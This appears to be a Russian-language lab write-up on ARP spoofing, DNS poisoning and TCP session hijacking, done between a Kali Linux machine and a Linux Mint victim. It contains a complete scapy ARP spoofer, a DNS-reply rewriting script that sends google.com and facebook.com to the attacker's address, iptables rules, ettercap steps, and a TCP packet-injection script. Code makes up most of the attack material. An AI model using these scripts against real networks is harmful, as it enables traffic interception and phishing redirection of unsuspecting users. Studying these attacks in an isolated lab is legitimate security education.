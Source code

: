 # ARP Spoofing
![](https://i.imgur.com/4KEh3L5.png)
Для совершения атаки необходимо:
Компьютер злоумышленника, в моей сети это машина Kali Linux в VLAN3;
Компьютер жертвы - Linux Mint в том же VLAN3.
Чтобы траффик проходил через тачку злоумышленника, необходимо маршрутизировать пакеты, для этого на Kali поменяем флаг:
echo 1 > /proc/sys/net/ipv4/ip_forward

Теперь все готово, включаем сеть.
Смотрим айпи адреса, мак адреса устройств Kali и Mint, их arp таблицы:
![](https://i.imgur.com/CAHlkK2.png)
Видим, что у жертвы в таблице прописан гитвей(192.168.3.1) и его мак адрес. Нам нужно послать широковещательный ARP запрос, чтобы поменять mac адрес в arp таблицах гитвея и машины жертвы на mac адрес Kali.
Будем использовать написаный мной скрипт на Python:
```
"""
My spoofer
"""
import scapy.all as scapy
from scapy.layers.l2 import ARP, Ether
import time
import argparse


def args():
    parser = argparse.ArgumentParser("spoofer")
    parser.add_argument("-v", "--victim", required=True)
    parser.add_argument("-r", "--router", required=True)
    return parser.parse_args()


def get_mac(ip):
    """returns mac for ip"""
    arp = ARP(pdst=ip)
    brd = Ether(dst="ff:ff:ff:ff:ff:ff")
    packet = brd / arp
    ans, _ = scapy.srp(packet, verbose=0)  # (sent, received)
    # ans[0][1].show()
    try:
        return ans[0][1].hwsrc
    except Exception as e:
        return None


def spoof(victim, router):
    victim_mac = get_mac(victim)
    router_mac = get_mac(router)
    if not victim_mac or not router_mac:
        print("mac address not found for ips")
        exit(0)

    packet_to_victim = ARP(pdst=victim, op=2, hwdst=victim_mac, psrc=router)  
    packet_to_router = ARP(pdst=router, op=2, hwdst=router_mac, psrc=victim)  
    counter = 1
    while True:
        print(f"\r{'*' * (counter % 120)}", end="")
        counter += 1
        scapy.send(packet_to_router, verbose=False)
        scapy.send(packet_to_victim, verbose=False)
        time.sleep(5)


if __name__ == "__main__":
    options = args()
    spoof(options.victim, options.router)
```
После запуска скрипта, снова выводим таблицу у тачки Mint и видим, что мас адреса KAli и роуетра одинаковые
![](https://i.imgur.com/pckadLi.png)

Дальше уже можно сниффать траффик с машины злоумышленника.
## ARP Spoofing & DNS Poisoning

Для этого нам понадобится новый скрипт, который подменяет ответы от DNS сервера,я взял готовый на основе scapy, суть в том, что мы перехватываем траффик с помощью арп спуффера+меняем запросы DNS типа, то есть условно, если жертва отправляет nslookup или ping на google.com, то запрос жертву можно будет перенаправить на ip злоумышленника. Это может быть фишинговый сайт.
Для этого чтобы перенаправлять нужные пакеты, пропишем нужное правило в файрволл iptables:
iptables -I FORWARD -j NFQUEUE --queue-num 0
Теперь можно обрабатывать DNS пакеты с помощью iptables.
```
from scapy.all import *
from netfilterqueue import NetfilterQueue
import os

# DNS mapping records, feel free to add/modify this dictionary
# for example, google.com will be redirected to 192.168.1.100
dns_hosts = {
    b"www.google.com.": "192.168.3.2",
    b"google.com.": "192.168.3.2",
    b"facebook.com.": "192.168.3.2"
}


def process_packet(packet):
    """
    Whenever a new packet is redirected to the netfilter queue,
    this callback is called.
    """
    # convert netfilter queue packet to scapy packet
    scapy_packet = IP(packet.get_payload())
    if scapy_packet.haslayer(DNSRR):
        # if the packet is a DNS Resource Record (DNS reply)
        # modify the packet
        print("[Before]:", scapy_packet.summary())
        try:
            scapy_packet = modify_packet(scapy_packet)
        except IndexError:
            # not UDP packet, this can be IPerror/UDPerror packets
            pass
        print("[After ]:", scapy_packet.summary())
        # set back as netfilter queue packet
        packet.set_payload(bytes(scapy_packet))
    # accept the packet
    packet.accept()
    

def modify_packet(packet):
    """
    Modifies the DNS Resource Record `packet` ( the answer part)
    to map our globally defined `dns_hosts` dictionary.
    For instance, whenever we see a google.com answer, this function replaces 
    the real IP address (172.217.19.142) with fake IP address (192.168.1.100)
    """
    # get the DNS question name, the domain name
    qname = packet[DNSQR].qname
    if qname not in dns_hosts:
        # if the website isn't in our record
        # we don't wanna modify that
        print("no modification:", qname)
        return packet
    # craft new answer, overriding the original
    # setting the rdata for the IP we want to redirect (spoofed)
    # for instance, google.com will be mapped to "192.168.1.100"
    packet[DNS].an = DNSRR(rrname=qname, rdata=dns_hosts[qname])
    # set the answer count to 1
    packet[DNS].ancount = 1
    # delete checksums and length of packet, because we have modified the packet
    # new calculations are required ( scapy will do automatically )
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # return the modified packet
    return packet


QUEUE_NUM = 0
# insert the iptables FORWARD rule
os.system("iptables -I FORWARD -j NFQUEUE --queue-num {}".format(QUEUE_NUM))
# instantiate the netfilter queue
queue = NetfilterQueue()
try:
    # bind the queue number to our callback `process_packet`
    # and start it
    queue.bind(QUEUE_NUM, process_packet)
    queue.run()
except KeyboardInterrupt:
    # if want to exit, make sure we
    # remove that rule we just inserted, going back to normal.
    os.system("iptables --flush")

```
Для начала используем скрипт для арпспуффинга. Теперь запускаем новый скрипт.
У меня к сожалению не получилось, но мы должны были подменить запрос, тем самым жертва введя в запрос к примеру google.com перенаправить на ip, которйы прописал злоумшыленник в скрипте.
Это можно сделать c помощью готовой утилиты на Kali Linux ettercap.
С ettercap все просто, указываем два хоста, жертва и роутер,
![](https://i.imgur.com/1GRs9Bu.png)
Задаем в конфиге на какой ip будем менять dns ответ:
![](https://i.imgur.com/KcASvGe.png)
После этого подключаем плагин для сниффа и запускаем
![](https://i.imgur.com/R7Zbn5d.png)
Жертва пингует домен, ip меняется на мой. Если открыть домен, то открывается сайт злоумышленника.
![](https://i.imgur.com/SC3mEZr.png)

# TCP Hijacking
Начать можно со сниффинга траффика через WireShark с помощью атаки ARP Spoofing.
После этого нам нужно исследовать пакеты при подключении по TCP, например, жертва подключается по telnet на удаленную машину. Последний TCP пакет содержит нужную информацию
![](https://i.imgur.com/ZeHJcKL.png)
Порт, ack, seq, и прочее. С помощью скрипта попытался создать папку, но не вышло

```
from scapy.all import*
ip = IP(src="192.168.2.2", dst="192.168.3.2")
tcp = TCP(sport=34688, dport=23, flags="A", seq=2778609551, ack=1591494938)
data = "\n touch /home/xokage/1.txt\n"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

Почему то не получается...
Но суть атаки в том, что мы можем снифая траффик, получить необходимые флаги, тем самым подключиться в tcp сессию.
